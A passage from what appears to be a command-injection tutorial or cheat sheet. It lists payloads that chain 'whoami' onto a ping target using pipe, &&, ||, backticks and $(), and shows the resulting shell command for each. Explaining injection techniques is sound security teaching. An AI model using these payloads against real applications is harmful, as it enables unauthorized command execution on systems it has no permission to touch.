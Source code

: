 **4. Pipe (`|`)**
```bash
# Example payload
127.0.0.1 | whoami

# Resulting command
ping -c 1 127.0.0.1 | whoami
```
- **Usage:** Pipes output of first command to second
- **Result:** Only second command output is typically shown

**5. AND (`&&`)**
```bash
# Example payload
127.0.0.1 && whoami

# Resulting command
ping -c 1 127.0.0.1 && whoami
```
- **Usage:** Executes second command only if first succeeds (exit code 0)
- **Advantage:** Ensures first command completes successfully

**6. OR (`||`)**
```bash
# Example payload
invalid_ip || whoami

# Resulting command
ping -c 1 invalid_ip || whoami
```
- **Usage:** Executes second command only if first fails (non-zero exit code)
- **Use Case:** Exploit error conditions

**7. Sub-Shell Backticks (`` ` ``)**
```bash
# Example payload
127.0.0.1; `whoami`

# Resulting command
ping -c 1 127.0.0.1; `whoami`
```
- **Usage:** Command substitution - executes command and returns output
- **Limitation:** Linux/Unix only

**8. Sub-Shell Modern (`$()`)**
```bash
# Example payload
127.0.0.1; $(whoami)

# Resulting command
ping -c 1 127.0.0.1; $(whoami)
```
- **Usage:** Modern command substitution syntax
- **Limitation:** Linux/Unix only

---